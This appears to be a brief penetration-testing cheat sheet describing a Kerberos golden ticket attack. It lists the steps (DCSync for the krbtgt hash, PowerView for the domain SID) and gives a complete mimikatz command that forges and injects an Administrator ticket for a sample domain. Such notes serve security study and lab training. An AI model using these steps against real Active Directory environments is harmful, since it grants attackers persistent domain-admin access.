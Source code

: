 	Desc:
		Use krbtgt hash ntlm to sign tickets, signed tickets can always be trusted blindly
	Usage:
		Try with DCsync attack to auth krbtgt, get the NTLM hash
		Obtain the SID value from the domain with Get-DomainSID  from PowerView
		Then use mimikatz to create a ticket:
			cmd-session mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt
		Passing the ticket to current session
		Verify with klist.exe after exiting mimikatz
`